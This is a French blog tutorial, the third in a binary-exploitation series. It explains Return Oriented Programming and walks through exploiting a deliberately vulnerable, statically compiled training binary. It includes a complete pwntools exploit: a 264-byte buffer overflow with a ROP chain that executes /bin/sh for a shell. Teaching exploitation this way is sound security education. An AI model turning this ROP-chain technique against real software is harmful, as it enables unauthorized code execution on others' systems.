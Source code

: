 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
description: "Introcution au Return Oriented Programming (ROP) et exemple pratique."
---
```


 > Petit ajout après la publication des articles :

 > Ces quatres articles ont donné lieu à une conférence d'introduction au pwn à la HitchHack 2018. Elle résume les 3 premiers articles mais rentre moins dans le détail. Si ce format vous convient mieux, les slides sont téléchargables [ici](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) et la vidéo (francais uniquement) ici :

[![1, 2, 3, PWNED !](http://img.youtube.com/vi/hmt8M9YLwTg/0.jpg)](https://www.youtube.com/watch?v=hmt8M9YLwTg)

## Route du pwn, troisième  escale, bienvenue à bord !

Hier, le simple buffer overflow et le ret2libc, aujourd'hui, le ROP, ou Return Oriented Programming, et demain... Demain la conquête du monde !!!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

Je vous ai laissé hier sur le ret2libc, qui, vu de loin, consiste à piocher dans la libc les fonctions qui nous intéressent. Sauf que cette attaque n'est pas possible dans le cas où le programme est compilé en statique, et difficilement faisable si l'ASLR est activé. Nous allons aujourd'hui découvrir le ROP qui nous permet de contourner ces protections.

Ca ressemble de plus en plus au jeu du chat et de la souris, so...\
Follow the leader cat !

## Précisions ASLR et PIC

Avant de commencer, un petit retour sur ces protections parfois floues.

La configuration de l'ASLR est présente dans `/proc/sys/kernel/randomize_va_space`. Elle peut être à 0=désactivée, 1=activée (stack et heap), 2=activée (1 + data). La valeur 2 étant la nouvelle norme en cours d'adoption par les différents systèmes, déjà effective pour la plupart.

L'ASLR laisse donc toute une surface d'attaque non randomisée. Arriva donc ce qu'il devait arriver : des attaques utilisant les sections .text, .data, .got, .plt, ...

Plus d'informations sur les différentes sections et la structure d'un ELF ici : [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

L'ASLR ne suffisant pas, de nouvelles protections ont été mises en place : PIC / PIE (Position Indépendant Code / Exécutable). L'idée est simple... Et si on randomisait... TOUT ?!

Le ROP fonctionne avec un ASLR partiel ou total, mais est contré par cette dernière mesure...

Suite à la prochaine contre contre-mesure ! è.é

## Présentation de la technique

Return... Oriented... Programming...

Hum hum... Programmer... Avec des... Return ? °^°'

On va profiter du fait que la section .text du programme soit toujours au même emplacement pour piocher plein de petits bouts de code appelés gadgets, et les assembler pour faire notre exploit. L'exploit est donc une suite d'adresses pointant sur de l'assembleur, donc dans l'absolu, on peut tout faire avec. La limite ? Les gadgets qui sont à notre disposition dans le programme...

Même si on "peut tout faire", la stratégie la plus commune reste de faire comme dans l'article 1 où l'on génère un shellcode qui, via un syscall, permet d'exécuter un programme de notre choix.

Une chose importante à relever ici : On a besoin de gadgets. Les gadgets, c'est du code qui ne bouge pas. Les librairies, ca bouge. Donc un programme qui se base sur les librairies aura bien moins de surface d'attaque qu'un programme compilé en statique, qui, lui, contient tout le code qu'il utilise. De même, plus un programme va être volumineux et faire des actions complexes, plus vous avez de chance qu'il y ait des gadgets intéressants. Capich ? Noice !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Maintenant, abordons plus en détail les gadgets voulez-vous ?

Ils doivent tous répondre à un critère majeur : Se terminer par une instruction ret.

C'est ce critère qui rend l'attaque possible. En effet, lorsque l'on va contrôler le pointer d'instructions, on va faire en sorte que le programme exécute un premier gadget, que l'instruction ret finale indique la fin de l'exécution du premier gadget, et fasse revenir sur notre point de départ (la stack, qu'on vient d'overflow), mais une adresse plus loin. Cette adresse sera celle du second gadget et ainsi de suite.

Méfiance tout de même, si votre gadget se termine par un ret, mais contient des instructions qui modifient le flot d'exécution du programme, il risque de casser votre exploit. Donc pas de `call`, pas de `leave`, pas de `double ret`, pas de bras, et surtout : pas de chocolat.

De nombreux outils permettent de lister les gadgets d'un exécutable, comme ROPgadget, Ropper, XRop, ...

## Elaboration de l'exploit

Le binaire étudié est téléchargable [ici](/hacking/pwn_3of4_saperliropette/vuln)

Avant toute chose, on regarde un peu à quoi on s'attaque : x86-64, compilé en statique, full ASLR. Ok !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

Vous avez l'habitude maintenant, le classique :

Comprendre le fonctionnement du programme, trouver le point de crash, puis l'offset !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Ici encore, on voit que l'on crash sur un ret... Contrôlons-nous RSP ? Oui ! Offset ? 264 !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Petit rappel, ret a pour effet de placer ce vers quoi pointe RSP (donc le dernier élément de la stack), dans RIP. Nous avons donc RIP sous notre contrôle. Donc... RIP !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

On utilise ensuite l'outil ropgadget qui nous offre une superbe ropchain faite à partir de notre programme vulnérable :

```shell
$ ropgadget --binary vuln --ropchain
```

L'output est long (verbeux), je n'en mets qu'une partie :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

On en fait donc un fichier python, notre exploit est donc :


```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

C'est pas beau toute cette automatisation ? Bon, ca ne marche pas à tous les coups, mais quand ca marche, le gain de temps est énorme, surtout en CTF... ;)

On va maintenant l'exploiter :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell ! :D

Petit détail qui tue, on voit ici que $0 (le nom du programme exécuté) vaut `bash`, alors que dans notre ropchain, on avait `/bin//sh` (qui est compris comme `/bin/sh`). Mais c'est normal, car sur ma machine, `/bin/sh` est un lien symbolique qui pointe vers bash ! Mon vrai sh est `/usr/bin/sh`.

 > Mais... Ca ne concorde pas avec les exploits précédents ?!

Wouah ! Un qui suit ! Oui, en effet...\
Plus d'informations sur cette étrangeté sur l'article de coupaing Pixis : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

C'est tout pour cette courte introduction au ROP, j'espère qu'elle vous a mindblown comme il se doit. Vous avez désormais quelques cartes en main : BOF / shellcode / ret2libc / ROP / cerveau / ...

C'est pourquoi notre prochaine rencontre se fera autour de l'analyse d'un programme un peu plus complet. Nous allons donc conclure cette série et...

Tout faire péterrrrr ! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

A très vite pour encore plus de pwn !
